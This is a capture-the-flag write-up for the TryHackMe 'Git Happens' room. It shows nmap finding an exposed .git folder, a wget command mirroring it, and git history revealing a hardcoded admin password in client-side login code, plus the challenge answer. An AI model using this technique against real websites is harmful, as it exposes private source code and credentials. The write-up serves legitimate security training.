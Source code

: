# Git Happens

**Date:** 24, May, 2021

**Author:** Dhilip Sanjay S

---
[Click Here](https://tryhackme.com/room/githappens) to go to the TryHackMe room.

## Enumeration

### Nmap

```bash
nmap -sC -sV -oN nmap-initial 10.10.57.41
Nmap scan report for 10.10.57.41
Host is up (0.18s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.14.0 (Ubuntu)
| http-git: 
|   10.10.57.41:80/.git/
|     Git repository found!
|_    Repository description: Unnamed repository; edit this file 'description' to name the...
|_http-server-header: nginx/1.14.0 (Ubuntu)
|_http-title: Super Awesome Site!
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon May 24 20:34:18 2021 -- 1 IP address (1 host up) scanned in 15.89 seconds
```

![Git Happens - Home](Images/githappens-home.png)

### Git folder
- By running common scripts, `nmap` found that **.git** folder is being exposed.

![Git Happens - .git folder](Images/githappens-git.png)

---

## Downloading .git folder

- Previously I used some git related tools to download the contents of **.git folder**.
- But I found a fancy one liner using `wget` (recursive download):

```bash
$ wget --mirror -I .git http://10.10.57.41/.git/

[..snip..]
--2021-05-24 20:39:30--  http://10.10.57.41/.git/logs/refs/heads/master
Connecting to 10.10.57.41:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 216 [application/octet-stream]
Saving to: ‘10.10.57.41/.git/logs/refs/heads/master’

10.10.57.41/.git/logs/refs/heads/ 100%[===========================================================>]     216  --.-KB/s    in 0s      

2021-05-24 20:39:30 (9.23 MB/s) - ‘10.10.57.41/.git/logs/refs/heads/master’ saved [216/216]

FINISHED --2021-05-24 20:39:30--
Total wall clock time: 16s
Downloaded: 100 files, 60K in 0.003s (22.2 MB/s)
```

---

## Analysing Git logs

- By seeing the logs, we find a commit which performs **SHA-512 hashing** and **Obfuscation**.

```bash
root@kali:~/TryHackMe/git_happens/10.10.57.41# git log
[..snip..]
commit d954a99b96ff11c37a558a5d93ce52d0f3702a7d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:41:12 2020 +0200

    re-obfuscating the code to be really secure!

commit bc8054d9d95854d278359a432b6d97c27e24061d
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:37:32 2020 +0200

    Security says obfuscation isnt enough.
    
    They want me to use something called 'SHA-512'

commit e56eaa8e29b589976f33d76bc58a0c4dfb9315b1
Author: Hydragyrum <hydragyrum@gmail.com>
Date:   Thu Jul 23 23:25:52 2020 +0200

    Obfuscated the source code.
    
    Hopefully security will be happy!

[..snip..]
```

---

## Analysing to commited code

- Let's look through the code using `git log --patch`, we could find the **SHA 512 hash** of admin password.
- May be if we scroll further, we can find unhashed commit too!

```bash
root@kali:~/TryHackMe/git_happens/10.10.57.41# git log --patch
[..snip..]

- if (
-          username === 'admin' &&
-          passwordHash === 'HASHED_PASSWORD'
-        ) {
-          document.cookie = "login=1";
-          window.location.href = "/dashboard.html";
-        } else {
-          document.getElementById("error").innerHTML =
-            "INVALID USERNAME OR PASSWORD!";
-        }
-      }

[..snip..]
```

- We can find the password of the admin:

```js
[..snip..]

-        if (
-          username === "admin" &&
-          password === "SUPER_SECRET_PASSWORD"
-        ) {
-          document.cookie = "login=1";
-          window.location.href = "/dashboard.html";
-        } else {
-          document.getElementById("error").innerHTML =
-            "INVALID USERNAME OR PASSWORD!";
-        }

[..snip..]
```

### Find the Super Secret Password
- **Answer:** SUPER_SECRET_PASSWORD

---